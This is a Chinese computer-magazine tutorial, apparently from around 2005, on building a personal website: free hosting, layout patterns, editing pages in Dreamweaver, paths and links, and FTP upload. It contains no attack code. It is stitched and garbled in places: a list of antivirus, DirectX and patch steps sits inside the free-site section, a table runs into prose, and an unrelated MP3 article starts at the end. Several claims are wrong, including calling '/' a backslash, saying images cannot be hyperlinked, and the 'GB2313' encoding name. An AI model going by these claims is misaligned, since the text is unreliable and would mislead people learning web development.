我们每天都在不停辗转于各式各样的网站，看着风格各异的网页，相信许多朋友心里总有一个愿望，我能不能也在网上安个家——制作一个网站，这会不会很难呢？在这里首先告诉你，其实网页制作一点都不难，不信就和我们一起来一次网页制作和网站安家之旅吧！

(注：为了各位读者更加系统地学习网站制作，我们特意为大家准备了《个人主页的设计与制作》的电子书，请到 http://www.newhua.com/cfan/200509/site.rar 下载。)

### 不到一分钟体验 HTML 魅力

打开记事本，输入以下文字：

```
<font color=red>电脑爱好者</font>
<A href="http://www.cfan.com.cn">电脑爱好者</A>
```

将其保存为 test.html，双击打开看看，是不是出现了一个红色的“电脑爱好者”，单击后一个“电脑爱好者”，则会打开我们的网站。

1989 年，欧洲粒子物理实验室(CERN)的研究员 Tim Berners-Lee 和 Anders Berglund 两人创建了一种基于标记的语言，以方便研究人员在万维网上共享技术文件，它就是大名鼎鼎的 HTML。HTML 实际就是一个文本文件，使用一套特定标记（这些标记全都以尖括号“<”和“>”括起来的）将文档标注起来，当通过浏览器打开 HTML 网页时，由浏览器负责解析这些标记，并按预先定义的格式显示出内容。

### 简单到极点！1 分钟做网页

做网页到底有多难，让我们先领教一下。

- - 第一步：打开 Word，点击“视图→Web 版式”。
- - 第二步：在空白处写一段你今天的心情日记，如果你了解更多 Word 操作，就简单排个版式吧，加上今天日期、天气，再加入一些图片、表格和音乐等，直到满意为止。
- - 第三步：单击“文件→另存为网页”，将文件名指定为“index.htm”，保存类型为“网页”（见图1）。
- - 第四步：双击你保存的 index.htm 文件，马上在浏览器中就能欣赏你的第一个网页作品。

看！制作网页就是这样简单。剩下的过程，只要你拥有个人主页空间和域名，将这个文件和附带图片等资源上传，你的网站就可以让四海的朋友共同分享了。当然，这些过程稍微复杂一点，后面会为你详细说明。

### 懒惰到极点！不用动手轻松拥有个人网站

如果你很菜！如果你很懒！如果你根本不想学任何网页知识，那就用下面的方法来架设你的个人网站吧！不需要费用，而且还有各色模板让你不费吹灰之力 DIY 出漂亮的主页，而这些更不需要你懂任何的理论知识，只要跟着我一步一步操作即可。这里以中华网提供的免费个人主页空间为例。

- 1. 如果在局域网，在接上网线前一定要先安装好杀毒软件和防火墙软件，并且在进行一切操作前，先更新最新的病毒库。
- 2. 驱动程序恢复完成后，应该安装 DirectX9.0c (http://www.mydrivers.com/dir95/d38285.htm)。
- 3. 安装备份好的系统补丁，接着到 Windows Update 网站更新最新的系统补丁。
- 4. 开始打开 IE 浏览网站前，应当使用 SpywareBlaster (下载地址:http://www.javacoolsoftware.com/sbdownload.html) 和 IE 插件屏蔽 (下载地址:http://nj.onlinedown.net/soft/35733.htm) 对系统进行免疫，防止间谍程序和恶意插件侵入。

### 一步拥有个人网站

首先访问 http://home4u.china.com/，在登录框下侧找到“注册”按钮进行注册。根据要求填写注册信息，注意把网站类型和搜索关键字填写合适，这样比较方便别人在搜索引擎中找到你的网站。内容填写完毕后，你便已经拥有了自己的个人主页空间，虽然只有 10MB，但也足够初学的你尽情挥洒想像力了。你可以直接在浏览器中输入“http:// 你的用户名.home4u.china.com/”看到中华网以缺省的网页模板为你搭建的主页（见图2），是不是已经有模有样了，下面开始 DIY 你的个人网站吧。

### 把个人网站做得更个性、更漂亮

- - 第一步：注册完成后，在出现的信息页直接点击“登录”进入“管理后台”。
- - 第二步：点击左侧控制栏中的“我的空间”下的“选择模板”，在中华网提供的 6 个模板中选择喜欢的样式（见图3），在出现的确认页面中点击“确认”。（注意：这将会删除以前页面，在你修改过配置后谨慎使用。）

第三步：点击“我的空间→文件管理器”，再单击根目录下目录名左侧的加号，打开目录，单击“index.html”文件，再选择右侧工具列表里的“在线修改”，你就可以进入自己个人主页的在线所见即所得修改界面（见图4），承接上文，你可以按照 Word 的操作方法，任意地修改你的主页（详细操作提示可以在 http://61.151.243.222/step.html 找到，每个步骤都有详细说明）。

第四步：修改完成后点击“保存修改”，出现完成页面，提示你“你好，文件已经成功保存！请点击链接查看！”，点击“查看”即可欣赏你的修改结果。

如果对自己的作品还算满意，就快点把你的个人主页地址四处传播给朋友吧！

小提示：如果想了解更多关于个人主页制作的方法，可以参阅中华网提供的“主页工厂”子站（http://tech.china.com/zh_cn/home4u/），这里有全面的网页制作知识和相关软件的应用详解，很值得仔细阅读，相信可以让你提高得更快。

- - ★还有哪些免费个人主页
  网易免费 http://go.nease.net/
  雅虎地球村 http://cn.geocities.yahoo.com/
  1K8免费个 http://user.1k8.com/
  互动家园 http://www.chiname.cn/
- - ★不用看别人的脸色，把你的电脑变成服务器
  网上免费空间很有限，想不想把自己的电脑直接变成服务器？硬盘有多大，网站空间就有多大，并且自带聊天室、论坛、网络U盘，甚至还有远程控制这样的高级功能。2005年第5期《五分钟 你的电脑变成服务器》介绍的 MyShow 工具箱能让你轻松实现以上功能（http://www.myshow.cn），而且所有功能都可免费获得。
- - ★看到这里，你可能已经拥有了自己的个人主页，向朋友们炫耀一番也不错，不过建议你看看我们第3期的特别话题《网站背后的故事》，相信你会对自己建成的网站有更多理解。
- - ★近两年博客非常流行，被称为个人网站2.0版，其实说到底，它不过是个人网站变形，使用者不需要任何网页制作经验，只要注册并根据自己的喜好，点击几次鼠标就能完成自己博客的创建，之后只需要设定模板和经常添加文章即可，维护和管理非常方便，读者朋友们可以到中国博客网（http://www.blogcn.cn/）申请自己的博客，也可在博客中国（http://www.blogchina.com/）上了解关于博客的知识。

### 各位乘客，网页制作直通车马上出发

前面我们告诉大家快速制作个人网站的方法，但如果你有志成为一名强力站长，甚至希望把它当成自己的职业，或是渴望通过它走向创业之路，那么就和我们一起翻开网站制作班教材，搭上《电脑爱好者》开出的这班网站制作高速直通车，学习最正规的网站制作技能。

### 做网站先要画图纸 设计网站整体布局

做网站就像是在网上盖房子，不管是大到新浪、搜狐那样的门户网站，还是小到个人主页，都应先好好设计网站首页以及其他所有页面的布局和结构，就像房屋设计蓝图一样，不同功能应有专门区域，这样才便于别人浏览以及自己更好地管理和更新。

#### 1. 火眼金睛 参透主流网页结构

虽然网站形形色色，但如果把整个首页当成一个整体去观察，你会发现它们其实无外乎有以下几种：

#### (1) “同”字型网页结构

这类网页布局格式从整体上看，就像一个大的“同”字。页面顶部为主导航条(即主菜单,点击后可进入相应子栏目)；页面左右两侧分别列出二级栏目(菜单)或比较综合的热点区(客户登录或注册、搜索引擎、友情链接、广告等)。优点:较直观、条理清楚、均衡。不足:版式略显不够活跃。

#### (2) “匡”字型网页结构

和“同”字型结构有点相似，其实它就是将“同”字型结构按逆时针旋转90度，这样就得到了“匡”字型结构，或者将“同”字型网页结构中的右侧的布局内容取消所得到的一种结构布局。克服了“同”字型网页结构布局中,色彩难搭配的缺陷

#### (3) “回”字型网页结构

它是以“同”或“匡”字型结构为基础,在其页面的底部或右部添加了一个内容区块(如广告或链接等),使整个页面形成一个较封闭的区间。优点:能更充分地利用有限的页面空间,更大大增大主页信息量，不用点击太多链接就能访问几乎所有页面。不足:显得较拥挤,四面封闭,不适合信息量大的网站。

#### (4) “川”字型网页结构

此布局将整个页面大致分成三列，主页的内容分布在这三列中。优点:可以极大地增大首页内容的显示程度，信息量大。缺点:访问时要滚动得很长，并且色彩不易协调。

#### (5) “吕”字型网页结构

源于上述几种结构布局，主要是将页面从上到下分成几个单独的模块。其实这种结构布局中也包含有上述结构的布局风格。它不仅具备上述网页布局的优点，而且更重要的是可以提高网页的下载速度。

#### (6) “左右”对称型网页结构

这类布局是采用等分屏幕的办法来实现页面布局的，是一种较为简单的网页结构。优点:较灵活、简洁、内容明了。不足:页面所展示的信息含量少，不适合较大型的网站。

### 小提示

除以上几种外，还有自由格式网页结构布局，它的风格较为随意,完成后的页面就像一张精美的图片或极具创意的广告。不过,这类页面结构多用于一些较时尚类的网站，如时装、化妆品等。一般大型商务网站不太适合。

#### 2. 设计你自己的网站蓝图

学习了网页结构，你现在已经心里有数了吧？现在请考虑一下你想做一个什么样的网站，比如:软件下载、电脑学习、关于自己兴趣爱好的等，最后确定自己要做什么，接着去看看你经常关注的相关网站，从整体上看一下它们的结构布局，细细品味和分析一下，最终选择一种结构，然后拿出一张纸，对照并临摹画出你自己的网页蓝图。

这里以电脑学习这个主题为例讲解，参照网站就是《电脑爱好者》官方网站——http://www.cfan.com.cn，《电脑爱好者》网站结构布局是比较典型的“吕”字型网页结构)。同时，在绘制过程中，要特别注意高手总结的以下经验：

- (1) 亮点应该摆在最佳位置
从网页整体上看，浏览者的注意力多是从左上角到右下角呈现递减的趋势浏览，因此你的网站Logo、重点文章、活动宣传、本站广告等应放置在左上角位置。

- (2) 重要内容摆在左上偏中部
就像是做任何事情，你不可能面面俱到，而应该重点操作一个点，对于网站，主打内容就是重点，比如:你的网站强项在于电脑使用教程，那么就应该把这部分的更新介绍或链接放置在左上偏中部的位置。

- (3) 功能板块立两旁
功能板块其实就是网站所提供的一些供浏览者使用或娱乐的功能板块，比如:搜索文章、邮件列表、论坛登陆等，一般分布于首页的一侧或两侧，这样的好处在于既不会影响突出网站的主题内容，也方便浏览者使用。

### 番茄悄悄告诉你！

1. 专业人士是如何画自己的网站蓝图的
对于制作网站的高手，他们通常会用PhotoShop等工具画出整个页面，甚至包括其中的按钮、菜单等。然后再用ImageReady等软件将各部分切割开来。如果你想了解整个流程，可参考我们提供的电子书《个人主页的设计与制作》。

2. 首页是如何构成的
一个网站的首页必要元素包括:页面标题(就是进入网站后，在IE标题栏显示的文字，一般是你网站的名称、宣传语等)、网站Logo、页眉(页面上端部分，因为...

| 网站LOGO       | 网站广告Banner | 当前时间   |
|----------------|----------------|------------|
| 首页           | 新闻播报       | 软件活动   | 硬件应用 | 网络天地 |
| 今日推荐       | 新闻播报       | 邮件列表   |
|                | 软件活动       | 站内搜索   |
| 特点关注       | 硬件应用       | 论坛       |
|                | 网络天地       | 文章排行   |
| 友情链接       | 网站导航       |            |
| 计数器         | 版权区         |            |吸引力非常强，大多数网站会在这里设置网站的宗旨、宣传口号、广告语，还有人干脆将它作为广告位置出售)、导航栏(呈现整个网站的所有或大部分栏目，便于浏览者快速通过它到达各个栏目)、主内容区(一般是第二级链接页面内容的标题、内容提要或内容部分摘要)、页脚(通常用来标注网站所属公司名称、地址、网站版权、电子邮件等)。

## 开始动工 踩在别人的肩膀上前进

和许多技能一样，在学习之初先进行模仿是通向成功的捷径，虽然“天下文章一大抄”不那么好听，但在广泛“抄袭”之后能够活学活用，你就离成功不远了！请教一些成功者，他很可能会告诉你：“我是在参考了N个别人的网页后，才琢磨出现在这种样子的！”

另外，很多人以为Dreamweaver使用起来很困难，不及FrontPage来得方便。与其人云亦云，不如我们来亲身感受一下Dreamweaver的强大，“谣言”便会不攻自破，同时如果你跟着进行了学习，那么就基本掌握了Dreamweaver的初级应用。以下我们采用Dreamweaver MX 2004 简体中文版为例进行讲解(下载地址:http://www.skycn.com/soft/860.html)。

## 小提示

**Dreamweaver MX 2004 VS FrontPage 2003**
FrontPage 2003是新手入门的最佳网页制作软件，你可以像用Word一样制作网页，它可以帮助你学习网页制作的基础知识。但Dreamweaver相对FrontPage来说，更专业、更高效、可操作性更强！在专业网页制作这个圈子里，几乎已经看不到FrontPage的影子了。

## 先把人家的网站“拿”回来

第一步: 在 IE 中打开想要作为模板进行修改的网页，本文中以《电脑爱好者》的首页为例(网址:http://www.cfan.com.cn)。等待页面完全打开后，选择 IE 菜单“文件→另存为”，文件名设置为“index.htm”，文件类型使用默认的 HTML 网页格式，保存到本地硬盘中。

第二步: 找到硬盘中刚才保存的网页文件，右击并在弹出菜单中选择“使用 Dreamweaver MX 2004 编辑”，接下来就能够在Dreamweaver中对刚才保存的网页进行编辑和修改了(见图5)。



## 迫不及待 动手吧

### 1.给“今日焦点”分栏目 体会表格应用

CFan网站首页中有一个“今日焦点”栏目，如果希望在其中将“软件”、“硬件”按左右分栏方式显示，该怎么做？

必要知识:大家可能会对Dreamweaver编辑状态下显示的页面有些不习惯，为什么页面中会显示一条条虚线呢(见图6)？这就是网页中的表格。大家可能会问，网页中为什么要用表格呢？网页中的元素( 如图片、文字等都是元素)默认情况下都无法绝对定位，网页的相应位置上有什么内容完全得依靠元素摆放的先后顺序。但如果我们使用表格，将表格中每一个单元格的大小都设定好，那么通过表格的嵌套就能实现元素的绝对定位了。



第一步: 将光标定位到“今日焦点“栏目中显示文章标题的单元格，将该单元格内的文章标题删除掉。

第二步: 选择菜单“插入→表格”或者点击“常用”工具栏中的表格按钮 。在弹出的“表格”窗口中将“行数”设置为“1”，“列数”设置为“2”。

第三步: “表格宽度”根据外侧单元格(即要在其中插入表格的单元格)的宽度来指定，将光标定位到该单元格后，上方就显示出了该单元格的宽度( 见图 7)。如是整页大小的表格，则应设为750像素左右(适合800 × 600分辨率的显示方式)。


第四步: 将“边框粗细”、“单元格边距”、“单元格间距”这三个选项根据表格的显示需要进行设置，如果表格仅用于页面元素定位而非用于显示，则这三个项目都应设置为0(“单元格边距”和“单元格间距”留空并不代表值为0，所以如果要将该值设置为0，一定不能留空)。此处将“单元格边距”设置为“1”，“单元格间距”设置为“0”。

第五步: 将光标依次定位到刚才插入表格的两个单元格中，在界面下方的“属性”面板中将“宽”设置为146(约等于293/2)，然后在单元格中分别加入软硬件的标题内容。

## 小提示

**表格设置有窍门**
在插入表格时能够指定的表格参数是相当有限的，在Dreamweaver的页面设计状态时，将光标定位到相应的单元格中，在界面下方的“属性”面板中就能看到该单元格的各种参数，比较常用的有“背景色”、“单元格对齐方式”等。如果想要设置表格而不是单元格的参数，我们应该把光标放在哪儿呢？其实很简单，首先将光标定位到需要设置的表格的任意单元格中，在页面设计框下方的元素关系表(见图8)中可以看到最右侧的元素为“td”(单元格)，点击其左侧最近的“table”元素，就能选中该单元格所属的表格了。



第六步: 请按照此法修改网页中其他不符合要求的表格。

### 2.分栏目之后 还要玩字体

我们希望分栏后的两个单元格中显示的“软件”和“硬件”字样与下方的文章标题列表能够醒目地区分开来，应该怎么做呢？

将光标定位到相应单元格，选中要改变字体的内容(即“软件”、“硬件”)，在下方的“属性”面板的“字体”下拉列表及“大小”下拉列表中重新选取。但应注意的是: 网页中所使用的字体必须是系统内置的常用字体，如“宋体”、“幼圆”等即为可选用的常用字体，而“华文彩云”等后安装的字体则不适合在网页中使用。否则一旦浏览网页的人没有安装这种字体，在网页中就会默认将其转换为“宋体”，这样就会破坏原来设计好的布局。按照此法将“软件”和“硬件”设置为“宋体”、“粗体”、“蓝色 #0000FF”(见图9，图10)。


## 小提示

**★字体设置技巧**
在“属性“面板中还有“水平”、“垂直”等选项(见图11)，这些参数是用来设置单元格中的元素以何种方式排列，如果在“水平”选择“左对齐”，则该单元格中的元素会尽量靠向左边排列，这些操作和 Word 中是基本一致的。标题等只占一行的文字通常都使用“居中”，而大段的文字则使用“水平左对齐”、“垂直顶端”的方式。


## ★找不着中文字体怎么办

在选择字体时，你会发现找不到“宋体”等中文字体，这时可以点开“字体”下拉列表，点击其中的“编辑字体列表”。在弹出窗口(见图12)中的“可用字体”列表中选择需要放入“字体”下拉列表的字体，点击“<<”按钮加入，最后点击“确定”，就能在“字体”列表中找到刚才加入的字体了(每次操作加入一种字体，否则在“字体”列表中会同行显示)。



### 3.贴上你自己的LOGO

经过前面一番改头换面，相信你已经能够把网页50％的内容改为自己的主页了。为什么说“50％”呢？因为网页中不光有文字，还有图片，接下来就请跟我们一起将网页的LOGO换成自己的。

第一步: 准备好自己的LOGO图片，在本地硬盘中刚才保存网页的位置新建一个images子目录，将新LOGO放在其中，如logo.gif，大小最好与原网页中的图片一致，否则可能会引起错位。

如果自己的图片和原网页的图片大小不一致，可以在更换好图片后，选中该图片。然后在下方的“属性”面板的“宽”、“高”处填上合适的数值，图片就会根据你设定的数值进行相应拉伸，这样就不会导致图片所在的单元格“变形”了。

第二步: 选中LOGO图片，在下方的“属性”面板中能够看到有关该图片的信息了。要将CFan的LOGO改成自己的LOGO，可以在“源文件“输入框中输入“images/logo.gif”(不含引号，即“第一步”中新的LOGO图片位置)。

## 小知识

**制作网页必会知识:相对路径和绝对路径**
很多人可能会问，为什么是“/”，没错，在网页路径中只能使用这种反斜杠。那又为什么是“images/logo.gif”呢？这就是初学者会碰到的第一个概念障碍:相对路径和绝对路径。

相对路径指的是一个文件相对于另一个文件的位置，比如刚才在index.htm中编辑图片的位置，则该图片位置是相对于index.htm来说的，我们要指定的是logo.gif相对于index.htm在什么地方，而非logo.gif在什么地方。这就好比问路:当你问别人《电脑爱好者》杂志社在什么位置时，别人如果回答“北京市海淀区蓝靛厂南路……”，那可能会让你有些摸不着头脑;但如果别人用一个大家都比较熟悉的参照物“紫竹桥往西……”，那你就能比较清楚地知道杂志社所在的位置了。

与相对路径相对的是绝对路径，它是包括服务器协议(http://、ftp://等)的完全路径，如“http://www.cfan.com.cn/images/logo.gif”，引用这样的路径在页面位置改变时不易出错。

第三步: 按照上面的方法将网页中其他图片替换为自己的图片。

### 4.想出你的超级链接

超级链接对新手来说实在是个“神秘”的东西，怎么在网页中插入超级链接呢？刚才可能已经有朋友发现了，在分栏目时填入的那些内容（文章标题）并不是超级链接，而只是单纯的文字。现在就让我们将它们改成超级链接吧！

第一步：将光标定位至包含了标题文字的单元格，选中任意文章标题。在下方“属性”面板右上角的“链接”输入框中（见图13），输入我们需要链接的网址（如http://bbs.cfan.com.cn）。


第二步：在“链接”输入框下方，有一个“目标”下拉列表，这个选项控制了浏览者点击这个超级链接后，链接指向页面的打开方式。常用的有“_blank”和“_self”，前者代表“以新窗口打开此链接”，而后者则代表“在原窗口打开此链接”（即包含此链接的页面窗口）。

怎样添加自己的超级链接：首先确定你要供浏览者点击的元素（如一行文字等，应注意的是图片不能添加超级链接，但可以使用图片所在的单元格添加超级链接），选中该元素后按照上文中的方法在“属性”面板的“链接”及“目标”中进行修改即可。

如果超级链接指向的网页并非别的网站，而是自己网站的其他网页，建议你使用相对路径，如与当前页面在同一目录下的page2.htm，则“链接”中可以直接填写“page2.htm”（参考上文中有关相对路径的讲解）。用此方法还可以链接网站中的文件以供浏览者下载，如“download/soft.rar”。

修改网页是一个比较累的活儿，需要很细心，为了以防万一，最好经常进行保存，注意首页文件名应为index.htm，因为在你上传到服务器后，当别人输入网址，服务器会自动寻找并显示index.html，如果没有，则会再寻找并显示index.htm，如果连它都没有则会显示错误信息。另外，有的服务器还支持default.html作为首页文件。

### 5. 有了厅，该设计每个房间啦

根据上面的教程将网站首页修改完成，其实就相当于我们把一套房子的厅装修好了，现在就该添加网站每个栏目页面及栏目下文章页面了。

#### (1) 规划栏目页面和子页面

假设我们这个电脑教学网站有着软件、硬件、网络、新闻等栏目，因此要为它们创建一个单独的栏目页面，里面显示的是栏目内容列表及一些其他相关信息，接下来就是点击栏目页面中的文章标题所进入的文章页面。请打开http://www.cfan.com.cn/Olit/index.htm先观摩一下栏目页面，你会发现它要比首页简单得多。接着再点击进入http://www.cfan.com.cn/pages/20050413/1288.htm，这就更简单了吧！



#### (2) 制作二级和三级页面

对自己网站的链接状况心里有了数，现在就来实际操作吧，你可以根据前面学习的知识对刚才所说http://www.cfan.com.cn/Olit/index.htm和http://www.cfan.com.cn/pages/20050413/1288.htm进行修改。

在制作超级链接时，请注意栏目页的超级链接打开方式一般设置为“_self”，而文章页则设置为“_blank”。

最后，在完成修改并保存后，先预览一下最终效果吧，点击页面编辑框上方的地球形状按钮(见图14)并选择浏览器即可。怎么样，制作网页是不是超简单呢？！

## 番茄悄悄告诉你！



★预览页面时，发现浏览器标题栏中显示的仍是“爱好者Fan Group”，这是怎么回事呢？
在页面编辑框中将光标定位到空白处，在下方的“属性”面板中点击“页面属性”按钮，在弹出窗口左侧选择“标题/编码”标签，然后在窗口右侧的“标题”文本框中设置自己需要的标题显示内容，如“牛牛的个人主页☆http://www.××××.net☆”(见图15)。



★修改国外的网页后，怎么会出现乱码？
同样在刚才的“页面设置”窗口的“标题/编码”标签下，即“标题”文本框的下方，有一个“编码”下拉列表，将其设置为“简体中文(GB2313)”后问题即可解决。

★编辑文字时发现换行后行间距过大
在网页编辑时，如果一段文字过长，可以在中间用回车将其分段，可是回车后两段之间的行间距很大，影响了美观。其实只需按住Shift，再敲回车即可。

★其他细节处的修改
页面中超级链接未打开、打开中、打开后显示的文字颜色、页面中的背景色和默认文字字体、颜色(即在“属性”面板中没有指定的情况下)都可以在“页面属性”窗口的“外观”和“链接”标签下找到。

## 做个网站目录好管家

由于网站包含的文件相当繁杂，特别是在不断更新后，很可能会有几千，甚至上万个文件，如果先期没有设计好网站整体的目录结构，很可能会导致以后维护和管理成本相当高。所以在开始制作网站之前，应该对网站目录进行周密设计。

### 1. 先来听听高手们的的经验

规划网站的目录如同规划一个网站，要分析网站的栏目和内容，根据网站的栏目和内容的性质进行分类。以下是高手总结的一些实战经验：

1.  不要将所有文件都存放在一个目录。不仅会使自己搞不清哪些文件需要编辑和更新，而且还会影响上传速度，因为服务器一般都会根据目录创建一个文件索引，如果文件都在一个目录，即使只更新了一个文件，服务器也会将所有文件再检索一遍，建立新的索引文件。
2.  怎么创建目录最科学。一般在根目录下可创建以下目录：网页中所需的图像目录(如images，主要存放个人标志、Banner条、按钮等)、文本目录(如txt文件等)、程序专用目录(如Common，存放css、js、php、include等公共文件)以及数据库目录、各栏目目录(最好按主菜单栏目建立)、临时目录(一些临时保存的文件，比如：网友上传的东东)、media目录(flash、avi等文件)等。
3.  每个栏目的目录中创建image子目录。为每个栏目创建子目录后，还要在其中创建一个独立的images目录，用来存放该栏目的图像文件。而根目录下的image子目录主要存放首页和一些次要栏目中的图像。
4.  目录层次不要太深。建议不要超过3层，这样维护管理才方便。
5.  不要使用中文目录名、文件名。因为用中文易产生长文件名，最重要的一点是有些服务器系统不支持中文，造成无法显示网页的后果。同时长目录名不论对书写和系统调用都会产生麻烦，容易出错。

### 2. 看图对照制作你的网站文件目录

如下图所示，你看到的是一个网站的目录结构，请对照它并根据你自己的情况设计自己网站的目录结构。

## 来吧！把我们的家搬到网上去

做好的主页总不能留在自己的电脑里孤芳自赏吧。现在不论是国内还是国外都有一些免费资源来给你的个人主页安家。这里以支持FTP上传的免费个人主页空间虎翼社区http://www.51.net为例，给大家展示一下如何申请主页空间并完成主页的上传。

### 我想要一个家，挺大却不要钱的地方

第一步:在浏览器中键入http://club.51.net/来到虎翼网的个人主页社区。点击“免费型虚拟主机”的“登记注册”按钮(见图16)。
同意协议，进入下一步。



第二步:按照网站的要求填入你的详细资料。一共有两页需要填写，并且需要在这之后安装虎翼网的免费DIY吧工具。

注意:现在国内提供FTP上传服务的免费个人主页空间极少，虎翼社区在提供50MB空间的基础上还支持FTP实属难得，不爽的是需要安装它的IE工具栏。

第三步:到你的注册信息所填的信箱中找到“虎翼网免费空间激活信”，点击其中的激活链接，即可在出现的新页面中看到“你已经成功激活，空间将在12小时内开通”的提示。
当你注册成功激活账号后，在12小时内，所填写的注册邮箱将收到一封名为:“Thank you for using 51.net”的邮件，邮件内容包含FTP主机地址:×××.go.51.net，账号和密码;请妥善保管好。
其他主页空间提供商的注册过程与此类似，注册时请注意在最终得到FTP上传服务的地址、账号和密码后一定要妥善保管，因为这就是进入你网上的家的钥匙。

### 上传作品布置新家

上面你已经拥有了自己的网上安乐窝，下面需要把你精心制作的家具摆放进去了，下面以FTP上传工具CuteFTP为例，教大家如何把做好的主页上传至服务器。

注意:CuteFTP最新版本为Pro 7.0，可以在http://www.onlinedown.net/soft/3065.htm下载，而且该版本支持中文语言包，下载后拷入程序目录，在“工具→全局选项→显示→语言”中调整为“Chinese.lng”重新打开即可。

第一步:运行CuteFTP Pro，点击“文件→新建→FTP站点”，在弹出的页面属性窗口中，输入你在前面得到的FTP账户信息，“标签”处填写站点名称，比如“我的个人主页FTP”，后面依次输入FTP主机地址(×××.go.51.net)、账户和密码(见图17)。



第二步:点击“连接”按钮，CuteFTP会自动保存你的FTP网



## 网站登录信息并连接站点

连接成功后 CuteFTP 会自动将左侧的 FTP 站点列表切换为本地文件管理器，你可以在这里选择至你的网页目录。虎翼网的免费空间需将文件保存在“public_html”目录下，用鼠标将左侧需要上传的文件选定后直接拖至“public_html”目录下即可（见图 18）。

## 小提示

- ★虎翼网要求网站首页的 HTML 文件应该叫 index.html 或 index.htm，另外，还可以是 default.html。但不能同时存在，因为搜索引擎是按以上顺序排列的，如果同时存在 index.html 和 index.htm，浏览器搜索会先找到 index.html，就不搜索 index.htm 了。
- ★FTP 默认的连接端口一般为 21，有些服务商有可能更改，你需要在你的主机地址之后加上冒号和端口号，如：xxx.go.51.net:2021，使用时请注意。

第三步：上传完毕，激动人心的时刻到来了，在浏览器中键入你的个人主页域名（***.go.51.net），如果一切正常，就来享受成功的喜悦吧。

## 小提示

利用 Dreamweaver 也可上传网页
Dreamweaver MX 2004 本身也带有 FTP 上传功能（网站管理功能），点击“站点→管理站点→新建→站点→高级”（见图 19），将你的本地目录和远程信息正确填写之后，可以选择“文件→保存到远程服务器”，在选择需要上传的网页，马上你的修改就可以体现到网站上了。

## 网站功能太少，让我们丰富一下吧

在网页中加入 VBScript 或 JavaScript 脚本的代码，可以让你的网站变得功能非常强大，像网络广告、搜索引擎、特效、计数器等都是脚本的应用，加入这些代码的方法非常简单：将这一段代码放在任何页面中任何适合位置，也就是在 `<body></body>` 中的任何独立行中。
注意：不要将代码置于内嵌框架 `<iframe></iframe>` 中，否则将不能正常使用。

## 谁来查看过我的网站我有数

为网站加入计数器和统计系统可以让你知道有多少人访问过你的网站，他们都在什么时间来的、在什么地方、用什么浏览器……都会一览无余。
武林榜在线统计系统现在比较流行，注册的方法也比较简单，到 http://www.50bang.com，填完注册信息通过后就可以获得代码了。加入到你的网页代码之中，就可以享用网页统计的功能了。
按照一般习惯，统计系统图标一般出现在页面的最下方居中（也就是 `</body>` 上面一行 `<center></center>` 之中）位置，这样做的好处是当统计系统的服务器死掉，也不影响页面的载入。
除此之外，下面几个计数系统也比较知名：
IISUN 免费计数 http://www.itsun.com/
99 统计 http://www.99count.com/
Zhao123 网站计数器 http://count.zhao123.com/

## QQ 状态网上现

你的网站发布了很多有用信息后，相信肯定有不少朋友想和你直接沟通，如果都要加你的 QQ，那怎么受得了，加一小段代码，将你的 QQ 在线状态发布在网页上，点击之后对方不用加你为好友也可以跟你聊天了。

访问 http://is.qq.com/webpresence/code.shtml，按照提示一步步操作即可获得代码，加到你的页面或论坛当中立刻生效。

## 内容太多，请 Google 帮你站内搜索

当你的网页内容比较丰富时，网友要找信息可能会比较麻烦，这时提供站内搜索功能就很有必要了，而百度和 Google 等搜索引擎都提供了这样的免费服务，只要到它们的相应网页，将其中提供的代码放置在你的首页即可。
百度：http://www.baidu.com/search/code.html
Google：http://www.google.com/intl/zh-CN/searchcode.html

## 论坛、留言板请网友畅所欲言

网站做得好，必须还得增强互动性，因此留言本或论坛是必不可少的，目前网上免费论坛和留言本比比皆是，下面为大家推荐比较有特色的几个。
EPT 工作室出品的 EPT Flash 留言本是全 Flash 设计，相当华丽精美，大家可以到 http://www.etp21.com/ 注册申请，并获得一个免费的二级域名，直接嵌套到你的个人主页之中即可。
西陆网为大家提供了免费的个人主体论坛，到 http://www.xilubbs.com/freebbs/ 填写注册申请之后马上就能拥有。有了论坛和留言本，你的个人主页一下全副武装起来，经过你如此的苦心经营，一定会人气大旺，而你也会从中学到许多。

## 番茄悄悄告诉你！

- ★本期《轻松做主编 快乐办份 E 杂志》中介绍了制作邮件列表的方法，对于网站站长来说，提供邮件列表服务，可以更有效地粘住网友，使他们在不访问网站的情况下，通过 E-mail 获得你的网站更新，并且再次访问，同样邮件列表服务提供商也会给你一段代码，只要贴在网站首页就可以了。
- ★没有广告的网站不是好网站
网络广告是你以网养网的好方法，在众多的网络点击回报广告中，Google AdSense 广告以其影响力和信誉获得了全世界网友的认同，而且不用支付任何款项就能参加。一旦你的申请审核通过，在几分钟内就可以开始投放广告，是不是有些心动了呢？快去看看本期的《赚的就是美元——Google 广告创收大行动》吧！
- ★像这样的应用代码增色的例子很多，从特效网站直接下载或从别人的网站中找到特效代码，Copy 下来直接贴在你的网站中就能实现相应功能。如果希望应用得更好，那就需要进一步学习脚本知识了。

## 我爱音乐 我爱 MP3——我和 MP3 的 22 个瞬间

音乐有神奇的力量，它能让你忘记悲伤，能让你忘记痛苦，能让你更加快乐，能让你全身充满力量，总之音乐的力量无穷无尽。只是在家里听听音乐，当然不能满足我们，于是“卡带随身听”出现了。随着时间的推移，卡带式随身听已经逐步淘汰。小“火”了一把的 CD、MD 随身听，因受到体积、价格等多方面因素的影响，一直没有流行起来。那么现在最流行的随身听是什么呢？当然是 MP3 随身听了……

## MP3 随身听的音质如何？

要判断一款 MP3 随身听的音质好坏，主要就是要看解码芯片及耳机的优劣。耳机的选择大家可以参考本刊《耳机选购除了听，还是看的——浅谈优质耳机的一些外观特征》一文。下面我们就主要来介绍一下 MP3 的主流芯片。
目前市场上主流的 MP3 解码芯片有多种，其中 Philips、Sigmatel 与 Telchips 三大家族占领大半江山。

### 1.“将芯比芯”之高贵的“芯”——Philips 家族

在这三个品牌中，Philips 的芯片最受玩家推崇，它的 MP3 解码芯片以其强大的功能，突出的音质表现一向都是高端产品的首选。
